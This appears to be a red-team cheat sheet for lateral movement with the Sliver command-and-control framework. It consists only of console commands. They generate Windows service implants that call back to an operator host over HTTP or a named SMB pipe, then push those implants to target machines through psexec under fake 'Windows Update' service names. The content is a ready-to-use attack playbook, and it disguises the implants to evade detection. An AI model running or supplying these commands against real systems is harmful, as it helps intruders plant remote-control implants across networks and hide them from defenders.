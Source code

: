 # Sliver

Search Tag(s): #lateral-movement #sliver #psexec #windows

## 01 - HTTP

```
sliver (IMPLANT_NAME) > profiles new -l -b http://<IP>:<PORT> -a x64 -o windows -f service SVCShell

sliver (IMPLANT_NAME) > psexec -d "Windows Operating System Updater" -s "WindowsUpdateSVC" -p SVCShell <target_IP>
```

## 02 - SMB

```
sliver (IMPLANT_NAME) > pivots named-pipe -b <name_pipe>

sliver (IMPLANT_NAME) > profiles new -p namedpiped://<compromised_IP>/./pipe/<name_pipe> -l -a x64 -o windows -f service smb-win-svc64

sliver (IMPLANT_NAME) > psexec -d "Windows Operating System Updater" -s "WindowsUpdateSVC" -p smb-win-svc64 <target_IP>
```
